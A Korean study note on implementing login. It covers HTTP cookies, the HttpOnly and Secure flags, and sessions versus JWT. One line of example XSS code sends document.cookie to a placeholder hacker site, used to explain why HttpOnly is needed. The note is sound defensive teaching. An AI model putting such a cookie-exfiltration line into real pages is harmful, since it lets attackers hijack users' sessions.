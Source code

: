 ## **로그인 구현하기** 

### 1. Cookie에 대한 이해 
- 쿠키는 HTTP통신을 이용하는 서버 어디에서든지 쿠키를 주고 받을 수 있으며 클라이언트에서도 쿠키에 접근하고 관리할 수 있다.
- HTTP는 기본적으로 상태정보를 기억하지 못하기 때문에, 서버는 요청자가 누구인지, 같은 사람인지 식별할 수 없다.
- 이러한 문제를 해결하기 위해, 서버는 사용자의 식별정보를 쿠키에 저장하며, 쿠키에 저장된 정보를 통해 각 사용자를 구별한다.
- 수많은 사이트들에서 민감한 개인정보를 쿠키에 저장하고 있으며, 해커들은 다양한 방법으로 이 쿠키를 탈취하고자 하므로 보안에 신경을 써야 된다.

### 2. HTTP Only Cookies

쿠키는 클라이언트에서 자바스크립트로 조회할 수 있기 떄문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도를 하게 된다. 가장 대표적인 공격 중 하나가 CSS(Cross Site Scripting)이다. 
```jsx
location.href = "http://해커사이트/?cookies=" + document.cookie;
```
해커가 이와 같은 게시물을 공개게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.

이러한 취약점을 해결하는 방법은, 바로 브라우저에서 쿠키에 접근할 수 없도록 제한하는 것이다. 이러한 역할을 하는 것이 바로 HTTP Only Cookie이다. 개발자가 다음과 같이 간단한 접미사를 쿠키 생성코드에 추가함으로써 활성화할 수 있다.
```jsx
Set-Cookie: 쿠키명 = 쿠기값; path=/; HttpOnly
```
가장 마지막에 HttpOnly라는 접미사만 추가함으로써 HTTP Only Cookie가 활성화 되며, 위에서 말한 XSS와 같은 공격이 차단되게 된다. HTTP Only Cookie를 설정하면 브라우저에서 해당 쿠키로 접근할 수 없게 되지만, 쿠키에 포함된 정보의 대부분이 브라우저에서 접근할 필요가 없기 때문에 HTTP Only Cookie는 기본적으로 적용하는 것이 좋다.

### 3. Secure Cookies
HTTP Only Cookie를 이용하면 Client에서 Javascript를 통한 쿠키 탈취문제를 예방할 수 있다. 하지만 Javascript가 아닌 네트워크를 직접 감청하여 쿠키를 가로챌 수 있다. 이러한 통신상의 정보유출을 막기위해 HTTPS 프로토콜을 사용하여 데이터를 암호화하는 방법이 주로 사용되고 있다. HTTPS를 사용하면 쿠키 또한 암호화되어 전송되기 때문에, 제 3자는 내용을 알 수 없다.

문제는 HTTPS로 전송되어야 할 정보가, 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있다. 예를 들어 개발자가 다음과 같은 코드를 실수로 작성할 수 있다.
```jsx
<img src="http://www.example.com/images/logo.png" />
```
브라우저는 http://로 시작되는 위 코드를 만나면 암호화되지 않은 상태로 쿠키를 서버로 전달하게 됩니다. 해커는 이 암호화되지 않은 요청정보를 가로채서 쿠키를 탈취하게 됩니다.

이러한 사고를 방지하는 방법은 쿠키를 생성할 때 secure 접미사를 사용하는 것이다.
```jsx
Set-Cookie: 쿠키명=쿠키값; path=/; secure
```
위와 같이 마지막에 secure라는 접미사를 사용하여 쿠키를 생성하면, 브라우저는 HTTPS가 아닌 통신에서는 쿠키를 전송하지 않는다.

### 4. Session vs JWT(Json web Token)

**1.Sesstion(세션)**
- 전통적으로 많이 사용되어 온 방식으로, 서버 기반 인증방법이다.
- 세션 id를 사용해서 어떤 사용자가 서버에 로그인 되어있음이 지속되는 상태를 '세션'이라고 한다.
1. 사용자가 로그인에 성공하면 세션을 발행한다.
2. 그 세션을 브라우저에도 저장하고 서버 메모리에도 저장한다.
3. 인가가 필요한 요청을 보낼 때 서버에 세션값을 같이 보냄
4. 서버는 메모리에 저장된 값과 세션값을 비교해서 맞는 값이 있으면 성공

**단점은?**
- 세션이 서버에 저장되어 있기 때문에 사용자가 동시 다중 접속할 떄 메모리가 부족해진다.
- 확장성 부분에서 분산된 서버의 경우 세션 유지가 제대로 안되기 때문에 서버 확장이 어렵다.

**2. JWT (JSON Web Token)**
- 사용자가 로그인을 하면 토큰을 주는데, 이 토큰을 서버가 기억하고 있지는 않는다.(stateless)
- 세션을 대체하지 못하는 이유는 모든 사용자의 상태를 기억하고 있지 않는다.
- JWT는 이미 제공한 토큰을 뺏을 수 없어서 해커에게 토큰을 빼앗겨도 톸느을 무효화할 방법이 없음 => accessToken, refreshToken 두개의 토큰을 제공해야 한다.

### 참고
1. https://velog.io/@yaytomato/%ED%94%84%EB%A1%A0%ED%8A%B8%EC%97%90%EC%84%9C-%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C-%EB%A1%9C%EA%B7%B8%EC%9D%B8-%EC%B2%98%EB%A6%AC%ED%95%98%EA%B8%B0#-%EB%A1%9C%EA%B7%B8%EC%9D%B8%EC%9D%80-%EC%96%B4%EB%96%BB%EA%B2%8C-%EC%9D%B4%EB%A3%A8%EC%96%B4%EC%A7%80%EB%82%98
2. https://nsinc.tistory.com/121
